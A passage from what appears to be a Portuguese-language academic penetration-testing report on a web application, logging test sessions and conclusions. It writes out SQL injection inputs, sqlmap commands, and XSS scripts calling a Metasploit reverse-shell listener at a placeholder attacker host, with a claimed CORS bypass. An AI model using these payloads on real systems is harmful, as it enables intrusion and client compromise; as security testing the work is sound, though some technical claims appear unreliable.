\item \textquotedblleft{}-u\textquotedblright{} especifica a URL alvo da página a ser explorada.
	
\item \textquotedblleft{}--cookie\textquotedblright{} especifica um cookie de sessão válido a ser passado para o SQL MAP durante o ataque.
	
\item \textquotedblleft{}--current -db\textquotedblright{} comando utilizado para obter o nome do banco de dados utilizado pelo sistema alvo.
	
\item \textquotedblleft{}--level 5\textquotedblright{} comando utilizado para definir o nível da heurística utilizada no escaneamento.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a tela Consulta Servidor não seja vulnerável à injeção de SQL e consequentemente não seja possível descobrir o nome do banco de dados utilizado pela aplicação.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Mesmo aumentando o nível da heurística utilizada no escaneamento, não possível encontrar vulnerabilidade na página e consequentemente não foi possível descobrir o nome do banco de dados utilizado no sistema.



\subsection{Iteração 5}


\subsubsection*{~}


\subsubsection*{Tela Cadastro de Lotes -- Exploração via XSS}

Tarefa realizada dia 23/04/16.


Duração total das sessões executadas: 2 horas.



\paragraph*{Objetivo}

Explorar vulnerabilidade de XSS encontrada na tela Cadastro de Lotes na Iteração 4.



\paragraph*{Sessão de teste 1}

A partir do browser Iceweasel da máquina virtual utilizada para testes, abrir uma conexão com a máquina do sistema explorado utilizando um listener da ferramenta Metasploit. Dessa forma, obter acesso ao sistema operacional da máquina que acessa a aplicação.


Passos executados:



\begin{enumerate}[start=1]
	
\item Através do exploit disponível em \emph{Exploit/Multi/Handler }com o payload windows-meterpreter-reverse\_tcp\emph{, }usar o Metasploit para abrir um listener na porta 4444 da máquina virtual utilizada para testes;
	
\item Usar um comando GET de Javascript para abrir a conexão entre a máquina que acessa a aplicação e a máquina virtual utilizada para testes na porta indicada.

\end{enumerate}

Dessa forma, será criado um listener para ficar ouvindo conexões. Quando ocorre alguma conexão externa, ele executa o payload carregado no momento, que no caso é o \emph{windows/meterpreter/reverse\_tcp} utilizado para abrir uma conexão reversa da máquina atacada para a máquina atacante.


O código abaixo cria um objeto do tipo XMLHttpRequest e inicia uma chamada Ajax~ do tipo GET para IP\_do\_kali\_linux na porta 4444 de forma assíncrona.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\seqsplit{http://IP\_do\_kali\_linux:4444}\rq{},false);


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a sessão do Meterpreter seja aberta. E consequentemente, não haja acesso ao sistema operacional da máquina que hospeda a aplicação.



\paragraph*{Relatório de execução}

Não foi possível realizar o teste com êxito. Pois conforme mostra a Figura 28, o browser Iceweasel bloqueia a requisição usando o filtro de CORS \citep{62210}~ ~ ~ ~ ~





\begin{figure}[htp]
\centering
\caption{Erro exibido no navegador na execução da requisição usando o filtro de CORS.}

\includegraphics[width=450px]{image26.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\paragraph*{Sessão de teste 2}

Repetir os procedimentos realizados na Sessão de teste 1, entretanto na máquina virtual de testes utilizar um navegador diferente do Iceweasel, nesse caso o Firefox, para descobrir se o bloqueio da conexão ocorre apenas no Iceweasel.



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a sessão do Meterpreter seja aberta. E consequentemente, não haja acesso ao sistema operacional da máquina que hospeda a aplicação.



\paragraph*{Relatório de execução}

Não foi possível realizar o teste com êxito. Pois conforme mostra a Figura 29, o browser Firefox bloqueia a requisição usando o filtro de CORS.\citep{62210}~~





\begin{figure}[htp]
\centering
\caption{~Navegador Firefox impede a conexão quando o filtro de CORS é utilizado.}

\includegraphics[width=450px]{image26.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\subsubsection*{Tela Cadastro Servidor -- Exploração via SQL Injection e SqlMap}

Tarefa realizada dia 25/04/16.


Duração total das sessões executadas: 1 hora e 30 minutos.



\paragraph*{Objetivo}

Submeter entradas maliciosas no sistema através de injeção de códigos SQL na página Cadastro Servidor. Então executar sessões de testes para forçar ações não autorizadas no sistema.



\paragraph*{Sessão de teste 1}

Verificar se o campo \textquotedblleft{}\emph{Nome}\textquotedblright{} é vulnerável a injeção de código SQL utilizando a técnica de concatenação de aspas simples.


Entrada: \emph{teste $\lq$}



\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento do caractere aspa simples como um parâmetro regular da consulta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento de dados de entrada e não permitiu a injeção de instruções SQL através do campo de \textquotedblleft{}\emph{Nome}\textquotedblright{}.



\paragraph*{Sessão de teste 2}

Inserir um texto com uma distribuição adequada de aspa simples e comentários inline como entrada no campo \textquotedblleft{}Nome\textquotedblright{}, a fim de modificar a instrução SQL utilizada pelo sistema na consulta de dados referentes ao nome de usuários cadastrados. Comentários inline, como \textquotedblleft{}\#\textquotedblright{} e \textquotedblleft{}--\textquotedblright{} serão utilizados para tentar forçar o interpretador de SQL da aplicação a ignorar todas as instruções SQL que vierem após o comentário inserido


Entradas



\begin{enumerate}[start=1]
	
\item teste $\lq$ or 1=1 --
	
\item teste $\lq$ or 1=1~ \#

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento dos caracteres para impedir que os comentários inline modifiquem a instrução de consulta utilizada pela aplicação.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento de dados de entrada, não permitindo a mudança de comportamento da instrução SQL utilizada pelo sistema para consultar os dados dos usuários cadastrados.



\paragraph*{Sessão de teste 3}

É possível que a tela utilize Javascript para validar os dados informados pelo usuário do sistema no momento do cadastro. Então, para ignorar as possíveis validações existentes, o funcionamento do Javascript foi desabilitado no browser utilizado para testes. Após isso, foram repetidos os procedimentos das Sessões de testes 1 e 2.


Entradas:



\begin{enumerate}[start=1]
	
\item teste $\lq$
	
\item teste $\lq$ or 1=1 --
	
\item teste $\lq$ or 1=1 \#

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento de todos os caracteres informados como parâmetros regulares da consulta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Nada aconteceu. Com o Javascript desabilitado no navegador a página não realizou nenhuma requisição.



\paragraph*{Sessão de teste 4}

Com a função de Javascript habilitado no browser, tentar provocar uma falha no momento de cadastro de dados, através da passagem de instruções SQL no campo \textquotedblleft{}\emph{Siape\textquotedblright{}}.


Entradas:



\begin{enumerate}[start=1]
	
\item 1231 ); select * from usuarios; --
	
\item ); select * from usuarios; \#

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento de todos os caracteres informados como parâmetros regulares da consulta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não foi possível descobrir dados de outros servidores cadastrados na base de dados através da instrução de consulta fornecida ao campo \textquotedblleft{}\emph{Siape\textquotedblright{}}. Entretanto, devido à falta de tratamento adequado para dados inválidos no campo \textquotedblleft{}\emph{Siape}\textquotedblright{} o seguinte erro foi exibido: \textbf{\emph{Erro:}}\textbf{\emph{ Data too long for column $\lq$id\rq{} at row 1. }}Dessa forma foi possível identificar que o campo \emph{\textquotedblleft{}Siape\textquotedblright{}}, no banco de dados corresponde à coluna $\lq$id\rq{}.



\paragraph*{Sessão de teste 6}

Usar a ferramenta SqlMap para realizar testes para injetar SQL na página.


Para realizar essa sessão de teste, foi necessário utilizar a ferramenta Burp Suite para capturar as informações de cookie contidas no cabeçalho HTTP da requisição no momento em que a página de Cadastro Servidor é acessada. A {[}TODO: REFERENCIA FIGURA{]}~mostra os dados obtidos através do Burp Suite. Esses dados foram salvos no arquivo \emph{paramsTelaCadastroServidor} para ser utilizado na execução do teste.





\begin{figure}[htp]
\centering
\caption{~Dados da requisição à pagina Cadastro Servidor capturada pelo Burp Suite.}

\includegraphics[width=450px]{imagem27Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


\emph{Comando utilizado: }



\begin{enumerate}[start=1]
	
\item sqlmap -r paramsTelaCadastroServidor -p nome
	
\item sqlmap -r paramsTelaCadastroServidor -p siape
	
\item sqlmap -r paramsTelaCadastroServidor -p cpf --dbms=msql

\end{enumerate}

Sendo:



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}sqlmap\textquotedblright{} executa a ferramenta SqlMap.
	
\item O comando \textquotedblleft{}-r\textquotedblright{} informa que as instruções do ataque devem ser carregadas no arquivo \emph{paramsTelaCadastroServidor}.
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro que deve ser injetado.
	
\item \textquotedblleft{}--current-db\textquotedblright{} comando utilizado para descobrir qual o banco da aplicação alvo.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento dos parâmetros \textquotedblleft{}\emph{nome}\textquotedblright{}, \textquotedblright{}\emph{siape}\textquotedblright{} e \textquotedblleft{}\emph{cpf}\textquotedblright{} e não permita a injeção de SQL nesses campos.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Os parâmetros \textquotedblleft{}\emph{nome}\textquotedblright{}, \textquotedblleft{}\emph{siape}\textquotedblright{} e \textquotedblleft{}\emph{cpf}\textquotedblright{} não são injetáveis à SQL conforme mostram as Figura 31,32 e 33.





\begin{figure}[htp]
\centering
\caption{Resultado teste de injeção de SQL no campo \emph{Nome}.}

\includegraphics[width=450px]{image28.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\begin{figure}[htp]
\centering
\caption{Resultado teste de injeção de SQL no campo Siape.}

\includegraphics[width=450px]{image29.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi







\begin{figure}[htp]
\centering
\caption{Resultado teste de injeção de SQL no campo CPF.}

\includegraphics[width=450px]{image30.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\subsubsection*{~}


\subsection{Iteração 07}




\subsubsection*{Explorar XSS -- Tela Cadastro Servidor}

Tarefa realizada dia 15/05/16


Duração total das sessões executadas: 1 hora.


Com base no relatório de execução obtido no teste da seção ~T\textbf{ela Cadastro de Lotes -- Exploração via XSS}, sabe-se que os navegadores Iceweasel e Firefox, através do filtro CORS, bloqueiam requisições que usam Meterpreter.


Dessa forma, será utilizado o campo \textquotedblleft{}\emph{Nome}\textquotedblright{}, da tela Cadastro Servidor, para tentar incluir um script malicioso que consiga ignorar o filtro CORS e realize uma chamada a um listener do Mestasploit para executar um ataque usando Meterpreter



\paragraph*{Sessão de teste 1}

Para ignorar o filtro CORS do navegador é necessário que sejam incluídas algumas credenciais no cabeçalho da requisição. O script abaixo simula uma sessão de teste de requisição credenciada por meio do atributo \textquotedblleft{}\emph{withCredencials\textquotedblright{}\textbf{. }}


O código abaixo cria um objeto do tipo XMLHttpRequest e inicia uma chamada Ajax~ do tipo GET para IP\_do\_kali\_linux na porta 4444 de forma assíncrona. Porém, aqui é utilizado o atributo \textquotedblleft{}\emph{withCredencials\textquotedblright{} }para burlar o filtro de CORS do navegador.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\seqsplit{http://IP\_do\_kali\_linux:4444}\rq{},false);


r.withCredentials = true;


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a conexão seja aberta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. O comando \emph{\textquotedblleft{}withCredentials\textquotedblright{} }~encontra-se depreciado e a conexão não ocorreu.


Não foi possível realizar o teste com êxito. Pois conforme mostra a Figura 34, o comando \emph{\textquotedblleft{}withCredentials\textquotedblright{} }foi depreciado pelo navegador e a conexão não ocorreu.





\begin{figure}[htp]
\centering
\caption{Console do navegador indicando a depreciação do atributo \textquotedblleft{}withCredencials\textquotedblright{}.}

\includegraphics[width=450px]{image31.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{Sessão de teste 2}

Para ignorar o filtro CORS, deve ser adicionada ao cabeçalho da requisição uma instrução que simule uma assinatura válida para o navegador. Para esse fim, foi utilizada a instrução \textquotedblleft{}\emph{setRequestHeader\textquotedblright{} }para adicionar as credenciais maliciosas ao cabeçalho.


O código abaixo cria um objeto do tipo XMLHttpRequest e inicia uma chamada Ajax~ do tipo GET para IP\_do\_kali\_linux na porta 4444 de forma assíncrona.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\seqsplit{http://IP\_do\_kali\_linux:4444}\rq{},false);


r.setRequestHeader(\textquotedblleft{}Access-Control-Allow-Origin\textquotedblright{},\textquotedblright{}*\textquotedblright{});


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

Espera-se que a máquina que hospeda o sistema não permita que a conexão seja aberta.



\paragraph*{Relatório de execução}

O sistema não passou nos testes. Conforme mostram as Figura 35 e 36~a requisição foi bem-sucedida e o Metasploit conseguiu iniciar o exploit na máquina que hospeda o sistema explorado.


Através desse exploit, uma conexão entre máquina atacada e o sistema atacante é aberta podendo haver graves consequências como: Escalada de privilégios na máquina atacada e criação de backdoors.





\begin{figure}[htp]
\centering
\caption{Console do navegador indicando a conexão.}

\includegraphics[width=450px]{image32.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\begin{figure}[htp]
\centering
\caption{Exploit inciado com sucesso.}

\includegraphics[width=378px]{image33.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\subsubsection*{Atividade: mapeamento de vulnerabilidades -- Tela Relatórios}

Tarefa realizada dia 17/05/16


Duração total das sessões executadas: 15 minutos.



\paragraph*{Objetivo}

Utilizar o Burp Suite para descobrir as vulnerabilidades existentes na tela Relatório e indicar as possíveis técnicas que devem ser utilizadas para explorar as vulnerabilidades encontradas. Isso será possível a partir da captura de informações de cookie contidas no cabeçalho HTTP da requisição executada no momento em que um relatório de dados é gerado.


A Figura 37~mostra os resultados obtidos no momento de gerar um relatório dos dados cadastrados no sistema.





\begin{figure}[htp]
\centering
\caption{Burp Suite utilizado para captura de parâmetros no cabeçalho de uma requisição HTTP na tela Relatório.}

\includegraphics[width=450px]{imagem34Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


De acordo com os dados capturados através do Burp Suite, a página não recebe nenhum parâmetro manipulável para realizar a requisição no momento em que um relatório é gerado. Pois todos os dados disponíveis da aplicação são trazidos direto da base de dados para a tela.


Quando se utiliza os campos de filtros na tela, não há requisição, pois a aplicação usa os dados carregados para filtrar os dados que serão exibidos no relatórioMediante a esse contexto, não foram encontradas vulnerabilidades que pudessem ser exploradas.


A Figura 38~mostra os resultados obtidos no momento da impressão de um relatório gerado.





\begin{figure}[htp]
\centering
\caption{Burp Suite utilizado para captura de parâmetros no cabeçalho de uma requisição HTTP na tela Impressão de Relatório.}

\includegraphics{imagem35Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


De acordo com os dados capturados através do Burp Suite, a página não recebe nenhum parâmetro manipulável para realizar a requisição no momento em que um relatório é impresso. Dessa forma, não foram encontradas vulnerabilidades que pudessem ser exploradas.



\chapter{Conclusões}

Analisando os resultados obtidos pelas sessões de teste descritas anteriormente na seção 4.3, é possível chegar na conclusão que o sistema alvo possui duas vulnerabilidades: Força Bruta na tela de Login e XSS nas telas de cadastro de lotes e cadastro de servidor.


A criticidade da primeira vulnerabilidade é baixa, pois embora permita que um número indefinido de tentativas de login sejam realizadas, a possibilidade de acerto é remota.


Já a segunda vulnerabilidade é mais crítica, pois a partir dela existem algumas estratégias de ataque direcionadas à maquina cliente que podem ser executadas, tais como:



\begin{enumerate}[start=1]
	
\item ~Sequestro de Sessões
	
\item ~Redirecionamento para páginas maliciosas
	
\item ~Download e execução de scripts maliciosos no computador do cliente.

\end{enumerate}

Outra caracteristica que demonstra a criticidade dessa última vulnerabilidade é a possibilidade de burlar o Filtro CORS existente nos navegadores.


Dessa forma,os testes demonstram que o sistema é vulnerável a apenas dois dos tipos de ataques testados.













%\begin{enumerate}[start=1]

%\end{enumerate}



% ----------------------------------------------------------
% ELEMENTOS PÓS-TEXTUAIS
% ----------------------------------------------------------
\postextual
% ----------------------------------------------------------

% ----------------------------------------------------------
% Referências bibliográficas
% ----------------------------------------------------------


\bibliography{references}


% ----------------------------------------------------------
% Glossário
% ----------------------------------------------------------
%
% Consulte o manual da classe abntex2 para orientações sobre o glossário.
%
%\glossary

% ----------------------------------------------------------
% Apêndices
% ----------------------------------------------------------

% ---
% Inicia os apêndices
% ---

% ---


% ----------------------------------------------------------
% Anexos
% ----------------------------------------------------------

% ---
% Inicia os anexos
% ---


%---------------------------------------------------------------------
% INDICE REMISSIVO
%---------------------------------------------------------------------
\phantompart
\printindex
%---------------------------------------------------------------------

\end{document}